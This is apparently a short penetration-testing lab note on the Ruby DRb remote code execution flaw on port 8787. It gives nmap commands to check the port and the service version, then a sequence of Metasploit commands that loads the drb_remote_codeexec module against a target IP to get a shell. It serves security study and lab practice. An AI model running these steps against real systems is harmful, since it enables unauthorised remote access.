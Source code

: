 The problem is caused by the lack of what is known as taint checking, essentially a way that some program languages like Perl and Ruby check to make sure that data reveiced is safe for processing.

`nmap -sT <TargetIP> -p8787`: to check if the port is open.
`nmap -sT -sV <TargetIP> -p8787`: to check the Ruby RMI server version.
`msfconsole -q`, `search drb`, `use exploit/linux/misc/drb_remote_codeexec`, `show options`, `set RHOST <TargetIP>`, `exploit`: to get a shell.

---
---
